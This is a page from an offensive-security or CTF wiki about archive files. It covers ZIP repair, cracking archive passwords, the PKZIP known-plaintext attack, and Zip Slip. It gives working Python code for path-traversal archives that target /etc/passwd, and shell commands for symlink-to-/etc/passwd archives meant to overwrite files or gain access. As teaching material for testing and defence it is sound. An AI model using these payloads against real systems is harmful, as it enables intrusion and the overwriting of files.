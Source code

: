 ```yaml
---
description: Different kinds of file archives, like ZIP, RAR or TAR
---
```


# Archives

## File format

<figure><img src="../.gitbook/assets/image (27).png" alt=""><figcaption><p>A visual explanation of the ZIP file format by Ange Albertini</p></figcaption></figure>

Sometimes a zip file can be corrupted, either intentionally or unintentionally. You can try to fix it using the `-FF` flag in `zip`:

```shell-session
$ zip -FF archive.zip --out fixed.zip
```

Sometimes `binwalk` can also help with finding files in the ZIP when `unzip` cannot.&#x20;

When you suspect some kind of file trickery you should look at the file format, and find things that are weird about this ZIP file. Password Protection

Most types of archive files can set a password that encrypts the content until the correct password is given. There are a few tricks to brute-force or even bypass this password protection.&#x20;

### Brute-forcing

I spent a lot of time automating the cracking of password-protected archives in my [default](https://github.com/JorianWoltjer/default) tool:

```shell-session
$ default crack archive.zip
```

It will automatically recognize the type of encryption used and start hashcat or john to crack it using a wordlist.&#x20;

Doing it manually would require you to first get a hash using a tool like `zip2john` included in John the Ripper. Then you crack that hash with hashcat or john if you have the right hash mode.&#x20;

### Read filenames

An interesting little thing about most archive file formats is the fact that when they are encrypted, you can still read the filenames and structure, only the content is encrypted. This can already give a good idea of what kind of files the archive contains.&#x20;

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ unzip -v archive.zip
</strong>Archive:  archive.zip
 Length   Method    Size  Cmpr    Date    Time   CRC-32   Name
--------  ------  ------- ---- ---------- ----- --------  ----
      15  Stored       15   0% 1970-01-01 00:00 21c0cb62  file.txt
--------          -------  ---                            -------
      15               15   0%                            1 file
</code></pre>

As you can see, even the size and a CRC32 are present. This CRC is a checksum of the **unencrypted** file content, so if you can guess the content you can confirm it by taking the CRC. This allows for brute-forcing content of very small files as well. See this tool for an implementation of that:

{% embed url="https://github.com/kmyk/zip-crc-cracker" %}
A Python tool to bruteforce content of very small files in an encrypted ZIP archive
{% endembed %}

### ZIP Known Plaintext Attack

The PKZIP stream cipher is vulnerable to a Known Plaintext attack. This means that if we **know some content** of a file in the encrypted ZIP, we can use it to find the keys used to decrypt the rest.&#x20;

With a faster brute-force attack afterward it is also possible to recover the original password for further use.&#x20;

The [bkcrack](https://github.com/kimci86/bkcrack) tool has a great implementation of this attack, see the tutorial here on how to use it:

{% embed url="https://github.com/kimci86/bkcrack/blob/master/example/tutorial.md" %}
A tool that uses the known plaintext attack to decrypt ZIP files and recover the password
{% endembed %}

## Zip Slip Vulnerability

When creating your own archives that some **target processes**, you can include malicious filenames like `../../../../etc/passwd` to **overwrite**/**create** local files in outside directories. This functionality can exist if an application has an import functionality or automatically extracts archives you upload.&#x20;

{% hint style="success" %}
While the most common format is ZIP, this vulnerability exists in many more archive types. Like `.tar`, `.jar`, `.war`, `.cpio`, `.apk`, `.rar` or `.7z`
{% endhint %}

Filenames in zip files can be folders because a ZIP file may contain folders, but the unexpected functionality is that they may even be `../` filenames, there is no limit. Most popular archive extract functions (from libraries) are safe from this by explicitly normalizing or forbidding these paths, but custom implementations could very well be vulnerable:

<pre class="language-java" data-title="Java"><code class="lang-java">Enumeration&#x3C;ZipEntry> entries = zip.getEntries();
<strong>while (entries.hasMoreElements()) { 
</strong>    ZipEntry e = entries.nextElement(); 
<strong>    File f = new File(destinationDir, e.getName()); 
</strong>    InputStream input = zip.getInputStream(e); 6 IOUtils.copy(input, write(f)); 
}
</code></pre>

The main _pattern_ to look out for is:

1. Looping through the elements
2. Concatenating the target directory with the filename directly

To test for and exploit such a vulnerability, simply create a file entry with a custom name:

<pre class="language-python" data-title="Python (ZIP)"><code class="lang-python">import zipfile  # ZIP

with zipfile.ZipFile("payload.zip", "w") as zip:
    #          source            name
<strong>    zip.write("passwd", "../../../../etc/passwd")
</strong></code></pre>

<pre class="language-python" data-title="Python (TAR)"><code class="lang-python">import tarfile

with tarfile.TarFile("zipslip.tar", "w") as zip:
<strong>    zip.add("passwd", "../../../../etc/passwd")
</strong></code></pre>

The above example will create a ZIP file `payload.zip`, that when extracted by vulnerable, will try to overwrite `/etc/passwd` with the content you choose. This can be useful if `root` executes it for a Privilege Escalation scenario, but more commonly you'll want to get initial access by **overwriting executable files** like PHP shells, templates, dotfiles, or `~/.ssh/authorized_keys` if SSH is enabled (see [#writing-files](../linux/linux-privilege-escalation/#writing-files "mention") for more details).

### Symlinks

Aside from directory traversal in filenames like shown above, most formats can even include **symbolic links** that point to another path. When extracted, most libraries or commands will correctly recognize and create symlinks while extracting, but these special files can have weird side effects.&#x20;

Processes afterward might read/write to this file but accidentally **follow the symlink** we created while doing so. This can result in arbitrary file read/write with multiple steps.&#x20;

{% hint style="info" %}
**Tip**: You can even include _multiple_ file entries with _the same name_, allowing for even more complex attacks. [See here](https://packetstormsecurity.com/files/24031/tar-symlink.txt.html) for an example that writes a symlink, and then overwrites its contents from within the same TAR file
{% endhint %}

#### ZIP

When using `zip` to include a symlink you made, it will by default **follow the symlink** and include the content of the file it is pointing to. This may be useful for [linux-privilege-escalation](../linux/linux-privilege-escalation/ "mention") when an application zips a symlink you make locally, but in a scenario where it only _extracts_ the file, you should keep the symlink intact inside the ZIP file using the `--symlinks` option:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ ln -s /etc/passwd link        # Create symlink locally
</strong><strong>$ zip --symlinks payload.zip *  # Add to new archive
</strong>$ unzip -p link.zip link        # View to confirm symlink was added
/etc/passwd
$ 7z l -ba -slt link.zip        # type=l meaning symlink
...
Attributes = _ lrwxrwxrwx
</code></pre>

#### TAR

By default, the `tar` command will allow storing and extracting symlinks:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ ln -s /etc/passwd link  # Create symlink locally
</strong><strong>$ tar -cvf payload.tar *  # Add to new archive
</strong>$ tar -tvf payload.tar    # View to confirm symlink was added
lrwxrwxrwx user/user     0 2023-00-00 00:00 link -> /etc/passwd
</code></pre>
